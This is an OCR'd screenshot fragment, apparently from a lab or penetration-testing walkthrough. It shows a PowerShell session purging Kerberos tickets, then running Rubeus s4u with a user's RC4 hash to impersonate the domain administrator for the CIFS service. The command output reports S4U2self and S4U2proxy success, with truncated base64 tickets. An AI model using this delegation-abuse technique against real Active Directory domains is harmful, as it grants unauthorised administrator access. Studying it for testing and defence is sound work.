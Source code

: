 	PS C:\Users\testuser\Desktop> klist purge

	Current LogonId is 0:0x58fd1
			Deleting all tickets:
			Ticket(s) purged!
	PS C:\Users\testuser\Desktop> klist

	Current LogonId is 0:0x58fd1

	Cached Tickets: (0)
	
Request a ticket to access "c\$" share on behalf of "administrator"

	PS C:\Users\testuser\Desktop> .\Rubeus.exe s4u /user:lazyuser /rc4:C718F548C75062ADA93250DB208D3178 /impersonateuser:adm
	inistrator /domain:child.valhalla.local /msdsspn:"cifs/kabil" /altservice:cifs /ptt

	[*] Action: S4U

	[*] Using rc4_hmac hash: C718F548C75062ADA93250DB208D3178
	[*] Building AS-REQ (w/ preauth) for: 'child.valhalla.local\lazyuser'
	[+] TGT request successful!
	[*] base64(ticket.kirbi):

		  doIFWjCCBVagAwIBBaEDAgEWooIEVzCCBFNhggRPMIIES6ADAgEFoRYbFENISUxELlZBTEhBTExBLkxP
		  ........
		  SEFMTEEuTE9DQUypKTAnoAMCAQKhIDAeGwZrcmJ0Z3QbFGNoaWxkLnZhbGhhbGxhLmxvY2Fs


	[*] Action: S4U

	[*] Using domain controller: kabil.child.valhalla.local (192.168.200.200)
	[*] Building S4U2self request for: 'lazyuser@CHILD.VALHALLA.LOCAL'
	[*] Sending S4U2self request
	[+] S4U2self success!
	[*] Got a TGS for 'administrator' to 'lazyuser@CHILD.VALHALLA.LOCAL'
	[*] base64(ticket.kirbi):

		  doIFgDCCBXygAwIBBaEDAgEWooIEjDCCBIhhggSEMIIEgKADAgEFoRYbFENISUxELlZBTEhBTExBLkxP
		 ..........
		  TExBLkxPQ0FMqRUwE6ADAgEBoQwwChsIbGF6eXVzZXI=

	[*] Impersonating user 'administrator' to target SPN 'cifs/kabil'
	[*]   Final ticket will be for the alternate service 'cifs'
	[*] Using domain controller: kabil.child.valhalla.local (192.168.200.200)
	[*] Building S4U2proxy request for service: 'cifs/kabil'
	[*] Sending S4U2proxy request
	[+] S4U2proxy success!
	[*] Substituting alternative service name 'cifs'
	[*] base64(ticket.kirbi) for SPN 'cifs/kabil':

		  doIGKjCCBiagAwIBBaEDAgEWooIFMzCCBS9hggUrMIIFJ6ADAgEFoRYbFENISUxELlZBTEhBTExBLkxP
		 ............
		  oAMCAQKhDzANGwRjaWZzGwVrYWJpbA==
	[+] Ticket successfully imported!

Check tickets
